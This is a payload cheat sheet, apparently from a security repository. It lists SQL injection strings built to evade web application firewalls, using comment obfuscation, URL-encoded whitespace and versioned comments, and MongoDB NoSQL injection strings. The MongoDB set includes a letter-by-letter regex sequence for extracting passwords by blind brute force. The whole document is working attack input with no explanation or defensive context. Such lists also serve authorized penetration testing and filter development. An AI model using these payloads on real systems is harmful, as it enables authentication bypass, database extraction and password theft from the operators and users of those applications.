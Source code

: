 ## Payload WAF Bypass

```
/*!UNION*/ /*!SELECT*/ 1,2,3 --
/**/UNION/**/SELECT/**/1,2,3 --
+UNION+SELECT+1,2,3 --
%0AUNION%0ASELECT%0A1,2,3 --
UNION%0ASELECT%0A1,2,3 --
UNION%20SELECT%201,2,3 --
UNION%09SELECT%091,2,3 --
UNION%0CSELECT%0C1,2,3 --
UNION%0DSELECT%0D1,2,3 --
UNION%0BSELECT%0B1,2,3 --
UNION%A0SELECT%A01,2,3 --
%55NION %53ELECT 1,2,3 --
uni%6fn sel%65ct 1,2,3 --
' /*!50000UNION*/ /*!50000SELECT*/ 1,2,3 --
' /*!12345UNION*/ /*!12345SELECT*/ 1,2,3 --
```

## Payload NoSQL Injection (MongoDB)

```
' || 1==1 //
' || 1==1 %00
' || '1'=='1
' || true //
' || []//
' || 1 //
' || this.password.match(/.*/)//
' || this.passwordzz.match(/.*/)//
' || this.password.match(/^a.*$/)//
' || this.password.match(/^b.*$/)//
' || this.password.match(/^c.*$/)//
' || this.password.match(/^d.*$/)//
' || this.password.match(/^e.*$/)//
' || this.password.match(/^f.*$/)//
' || this.password.match(/^g.*$/)//
' || this.password.match(/^h.*$/)//
' || this.password.match(/^i.*$/)//
' || this.password.match(/^j.*$/)//
' || this.password.match(/^k.*$/)//
' || this.password.match(/^l.*$/)//
' || this.password.match(/^m.*$/)//
' || this.password.match(/^n.*$/)//
' || this.password.match(/^o.*$/)//
' || this.password.match(/^p.*$/)//
' || this.password.match(/^q.*$/)//
' || this.password.match(/^r.*$/)//
' || this.password.match(/^s.*$/)//
' || this.password.match(/^t.*$/)//
' || this.password.match(/^u.*$/)//
' || this.password.match(/^v.*$/)//
' || this.password.match(/^w.*$/)//
' || this.password.match(/^x.*$/)//
' || this.password.match(/^y.*$/)//
' || this.password.match(/^z.*$/)//
```
